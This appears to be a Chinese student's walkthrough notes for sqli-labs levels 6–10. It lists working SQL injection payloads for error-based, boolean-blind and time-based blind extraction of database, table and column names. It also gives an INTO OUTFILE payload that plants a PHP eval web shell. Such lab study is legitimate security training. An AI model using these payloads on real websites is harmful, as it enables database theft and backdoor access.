

# 6
和5一样，只是'变成"

# 7 (和前面不太一样)(例题)【先找出能正常执行的语句】
- ?id=1

- ?id=1'

- ?id=1' -- a

- ?id=1') -- a

- ?id=1')) -- a【不再报错】

- ?id=1')) order by 3-- a(确定只有3个字段)

- ?id=1')) and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) -- a(这里我们想用和上面一样的做法，发现没有结果)(根据他的提示用outfile)

- 后门
  -  ?id=1'))union select 1,"<?php eval($_REQUEST[1]);?>",3 into outfile 'D://phpstudy_pro//WWW//sqli-labs//Less-7//shell.php' -- a【写入 PHP 后门文件】（eval后面的语句当作执行指令）

  - 然后用   shell.php?1=phpinfo();   查询，？代表传参

# 8.1 （回显不显示）【后门】
- id=1?' and 1=1 -- a 和 id=1?' and 1=2 -- a有区别

- ?id=1' order by 3 -- a(确定有3个字段)

- ?id=1' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) -- a （没有回显）

- ?id=1' union select 1,"<?php eval($_REQUEST[1]);?>",3 into outfile 'D://phpstudy_pro//WWW//sqli-labs//Less-7//shell.php' -- a  +  shell.php?1=phpinfo();（直接拿下）

# 8.2 【盲注（布尔盲注、时间盲注）】【页面有无变化】

- ?id=1' order by 3 -- a(确定有3个字段)

- ?id=1' union select 111,222,333 -- a【和以前的不同，没有显错位】

- 步骤：
  1. 猜解库名长度：? id=1' and (length (database ()))=8 -- qwe
  2. 利用ASCII码猜当前数据库的名称：? id=1' and (ascii (substr (database (),1,1)))=115-- qwe 返回正常，说明数据库名称第一位是 s? id=1' and (ascii (substr (database (),2,1)))=101-- qwe 返回正常，说明数据库名称第二位是 e
  3. 猜表名：? id=1' and (ascii (substr ((select table_name from information_schema.tables where table_schema=database () limit 0,1),1,1)))=101-- qwe 如果返回正常，说明数据库表名的第一个的第一位是 e【(select table_name from information_schema.tables where table_schema=database () limit 0,1)查表名的语句】
  4. 猜字段：and (ascii (substr ((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)))=105-- qwe 如果返回正常，说明 emails 表中的列名称第一位是 i

- ?id=1' and (length(database()))>1 -- a

- ?id=1' and (length(database()))>10 -- a

- ?id=1' and (length(database()))=8 -- a （说明表名长度就是8）

- ?id=1' and (ascii(substr(database(),1,1)))=115 -- a(115没有报错，说明第一位就是s)（剩下的接着猜）（也可以用><来缩小范围）【limit从0开始，substr从1开始】

- ?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=101 -- a

- ?id=1' and (ascii (substr ((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)))=105-- qwe(不用再写table_schema)

# 9

- 基础语句尝试之后发现页面没有任何变化，所以可以试一下 时间盲注（sleep和if）
- if(条件，成立所执行的语句，不成立所执行的语句)

- 步骤：
  1. 猜测库名长度?id=1' and if (length (database ())=8,sleep (5),1) -- qwe
  2. 利用 ASCII 码猜解当前数据库名称：
  ?id=1' and if ((ascii (substr (database (),1,1))=115),sleep (5),1) -- qwe 延时，说明数据库名称第一位是 s
  3. 猜表名：?id=1' and if ((ascii (substr ((select table_name from information_schema.tables where table_schema=database () limit 0,1),1,1))=101),sleep (5),1) -- qwe 延时，说明数据库表名的第一个的第一位是 e
  4. 猜字段名?id=1' and if ((ascii (substr ((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1))=105),sleep (5),1) -- qwe 如果返回正常，说明 emails 表中的列名称第一位是 i 

- ?id=1" and if(length(database())=8,sleep(5),1) -- a【注意括号位置】

- ?id=1' and if((ascii(substr(database(),1,1))=115),sleep(5),1) -- a

- ?id=1'and if ((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101),sleep(5),1) -- a【不要加一些不必要的空格】

- ?id=1' and if((ascii(substr(((select column_name from information_schema.columns where table_schema=database() limit 0,1)),1,1))=105),sleep(5),1) -- a

# 10
和9一样，只不过是"闭合

